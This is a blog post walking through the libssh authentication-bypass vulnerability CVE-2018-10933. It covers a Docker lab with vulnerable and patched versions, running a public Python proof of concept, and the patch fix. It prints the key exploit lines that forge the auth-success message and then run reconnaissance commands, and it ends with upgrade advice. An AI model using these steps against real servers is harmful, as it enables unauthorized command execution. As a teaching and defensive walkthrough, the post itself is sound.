





:slug: libssh-bypass-cve/
:date: 2018-10-18
:category: attacks
:subtitle: New vulnerability on libssh CVE-2018-10933
:tags: security, bug, libssh, pentesting
:image: yodameme.png
:alt: Blank CSV document icon
:description: Libssh is a library to implement SSHv2 protocol on client and server side, recently a security analyst discovered a vulnerability that allows a remote attacker to bypass authentication by sending an user authenticated packet to the server. Here we are going to explain this vulnerability
:keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:translate: vulnerabilidad-libssh/

= LibSSH new Vulnerability

The new vulnerability in +LibSSH+, tracked as
link:https://www.libssh.org/security/advisories/CVE-2018-10933.txt[CVE-2018-10933],
resides on the server code
which can enable a client to bypass the authentication process
and create channels without permissions,
this affects servers using versions +0.6+ and above
being used in server mode.

The bug was discovered by Peter Winter-Smith of NCC Group,
it's like a +jedi+ trick:

* User: +Let me in+
* Server: NO
* User: +I'm authenticated, let me in+
* Server: OK, YOU'RE IN

Why this happens?
Because of the way +LibSSH+ checks for authentication,
when its receives an +SSH2_MSG_USERAUTH_SUCCESS+ message
instead of the +SSH2_MSG_USERAUTH_REQUEST+ message,
it acts like the user is already authenticated
and an attacker could bypass the authentication
and execute commands on the server.

== Building the enviroment

How +LibSSH+ works?
It's a +C+ library to implement +SSHv2+ protocol
on client and server side,
so first of all we need to write our server side code,
we are going to use the sample that +LibSSH+ has (+samplesshd-cb.c+)
and modify it for our purposes.

In the +ssh_channel_callbacks_struct+
we are going to put the following line
in order to have the +exec+ functionality:

.exec request
[source,C]
----
.channel_exec_request_function = exec_request
----

Next, add the +exec_request+ function,
this will take our commands and execute them on the server:

[source,C]
----
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
----

If you have +LibSSH+ with version +0.7.4+
you can simply save it, compile it and execute it,
if not you can use our method.
we are going to use a +docker+ container
and install both versions,
a vulnerable one and a patched one,
then pass our code to the server and run it.
The example files can be downloaded [button]#link:cve201810933.zip[here]#

To build the container,
open a +terminal+ in the folder of the +Dockerfile+
and run this command:

[source,bash]
----
host$ docker build -t fluidattackscve201810933 .
----

This will download all the necessary files
and compile all the sources of +LibSSH+.

Then, to open the container
simply run this command:

[source,bash]
----
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
----

This is going to mirror our +port 2222+ to the container +port 2222+
in order to be able to run our tests,
also it will open a +bash terminal+ on the container machine,
here we will run our +LibSSH+ server.

== Exploiting the vulnerability

In this case we are going to use +LibSSH v0.7.4+
and test the solution with +LibSSH v0.7.6+,
the PoC is on +Python+ version 2
and you can check its source
link:https://www.openwall.com/lists/oss-security/2018/10/17/5[here],
but if you downloaded our files
its there as +exploit.py+.

In order to run this PoC
you will need +paramiko+,
you can install it by running:

[source,bash]
----
host$ pip install paramiko
----

In the container run the following command
to start the vulnerable +LibSSH+ server:

[source,bash]
----
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

The verbose flag is to see what is sending and receiving our server.

Then in your machine run the exploit with:

[source,bash]
----
host$ python exploit.py
----

If you check your container
you can see this:

When the server is expecting the +SSH2_MSG_USERAUTH_REQUEST+
we are sending an +SSH2_MSG_USERAUTH_SUCCESS+

[source,python]
----
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
----

The server accepts it
and we bypassed the authentication.
Then we can send our commands to the server with:

[source,python]
----
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
----

== The solution

The +LibSSH+ version +0.7.6+ don't have this vulnerability
and we can test it too
in our container,
we just need to run:

[source,bash]
----
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
----

And on our machine the exploit again:

[source,bash]
----
host$ python exploit.py
----

What is happening?
We send the +SSH2_MSG_USERAUTH_SUCCESS+
and the server receives it
but it won't authenticate us
because they added a validation on their code,
when the packet is +SSH2_MSG_USERAUTH_SUCCESS+
then its checks for the authentication state
and if it is not one of the valid states
it denies the packet.

.Code on src/packet.c

Here you can see the difference of responses
between a vulnerable version
and a non vulnerable one.

.Vulnerable
image::vulnerable.png[vulnerable]

.No vulnerable

If you have +LibSSH+ in your server
and you are using a server component,
you should install the updated or the patched versions of +LibSSH+
